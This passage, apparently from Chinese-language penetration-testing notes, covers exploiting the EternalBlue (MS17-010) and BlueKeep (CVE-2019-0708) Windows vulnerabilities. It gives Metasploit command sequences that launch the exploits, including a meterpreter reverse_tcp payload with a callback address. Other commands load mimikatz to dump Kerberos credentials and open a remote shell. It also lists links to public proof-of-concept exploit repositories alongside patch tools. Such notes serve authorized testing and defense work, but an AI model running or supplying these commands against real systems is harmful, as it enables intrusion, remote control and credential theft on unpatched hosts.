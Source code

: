    # 命令执行,不回弹
    use auxiliary/admin/smb/ms17_010_command
    set command whoami

    # 使用 payload 连上去
    use exploit/windows/smb/ms17_010_eternalblue
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost [ip]      # 设置回弹地址
    set rhosts [ip]
    run

    # msf 下加载 mimikatz 模块
    load mimikatz
    kerberos
    ```

- 修复工具
    - ["永恒之蓝"勒索蠕虫漏洞修复工具](https://www.qianxin.com/other/wannacryfix)

**bluekeep & CVE-2019-0708**
- 相关文章
    - [RDP Stands for "Really DO Patch!" - Understanding the Wormable RDP Vulnerability CVE-2019-0708](https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/rdp-stands-for-really-do-patch-understanding-the-wormable-rdp-vulnerability-cve-2019-0708/)
    - [worawit/CVE-2019-0708](https://github.com/worawit/CVE-2019-0708/blob/master/NOTE.md)

- POC | Payload | exp
    - [zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708)
    - [robertdavidgraham/rdpscan](https://github.com/robertdavidgraham/rdpscan)
    - [Ekultek/BlueKeep](https://github.com/Ekultek/BlueKeep)
    - [mekhalleh/cve-2019-0708](https://github.com/mekhalleh/cve-2019-0708) (实测、蓝屏)
    - [Cyb0r9/ispy](https://github.com/Cyb0r9/ispy)
    - [k8gege/CVE-2019-0708](https://github.com/k8gege/CVE-2019-0708) - 批量检测工具
    - [cbwang505/CVE-2019-0708-EXP-Windows](https://github.com/cbwang505/CVE-2019-0708-EXP-Windows) - Windows版单文件exe版

- 修复工具
    - ["CVE-2019-0708"漏洞检测修复工具](https://www.qianxin.com/other/CVE-2019-0708)
    - https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708

- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts [ip]
    run
    ```
    ```bash
    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target [1-7]
    set rhosts [ip]
    show options
    exploit
    shell
    python
    ```
